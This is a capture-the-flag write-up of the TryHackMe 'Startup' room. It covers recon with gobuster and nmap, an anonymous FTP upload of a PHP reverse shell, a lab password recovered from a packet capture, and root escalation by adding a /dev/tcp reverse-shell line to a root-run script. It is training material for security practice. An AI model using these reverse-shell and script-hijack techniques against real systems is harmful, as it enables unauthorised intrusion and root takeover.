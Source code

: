# Startup |  Welcome to Spice Hut!
```
  CTF : "Startup"
  URL : https://tryhackme.com/room/startup
  Style: Unguided
  Difficulty : Easy / Beginner
```

Looks like a simple website.

To get started, lets run NMAP and GOBUSTER

```
gobuster dir -u "http://10.10.25.192" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster_full.txt
```
and NMAP
```
nmap -A 10.10.25.192 -oN ~/spicehut/nmap_A.txt -vv
```
GOBuster got a hit : ``<ip>/files/`` is accessible

We check the contents, and see that there is a FTP Folder and some files.

One of the Files:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
Just looking around, maybe the name `maya` is to be remembered for later.

While looking around in /files/ i see an FTP Folder, and confirm in NMAP that there is indeed a FTP server
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| FTP server status:
|      Connected to 10.14.12.121
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
```

I can Anonymous login to the FTP, lets see if we can upload it.

Uploaded a Reverse shell PHP with FTP, executed it and now logged in as _www-data_

## Question 1
I find recipe.txt on the "/" giving me the secret ingredient.

```
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

## Question 2
I found a accessible pcapng file, here it seems that someone else made a reverse shell.

By using "Follow TCP Stream" it showed someone attempting to login using some password as lennie. Lets attempt this password

```
c4ntg3t3n0ughsp1c3
```

Seems i can login as Lennie! Instead of opening the Reverse shell again, i opted to just SSH into the machine using lennie as user.

``
lennie@<ip>
``

After this i executed /bin/bash to get a proper terminal.
## Question 3

First i tried running linPEAS and Linux Escalation Scripts respectively. I did not really get anything out of that...


I notice that in the `/home/lennie/scripts` folder there is some .sh file owned by root who calls ``/etc/print.sh`` (for no reason).

``/etc/print.sh`` is owned by lennie, so that allows me to make adjustments and they will be run BY root. By adjusting this file and adding a reverse shell it should be run as root and open a terminal as root.

```
#!/bin/bash
/bin/bash -l > /dev/tcp/10.14.12.121/4444 0<&1 2>&1
echo "Done!"
```

on my own Machine:

```
rlwrap nc -nvlp 4444
```

And now we wait, and within no time an terminal was opened.

```
whoami
root
```

This allows us to cat root.txt and complete the task!
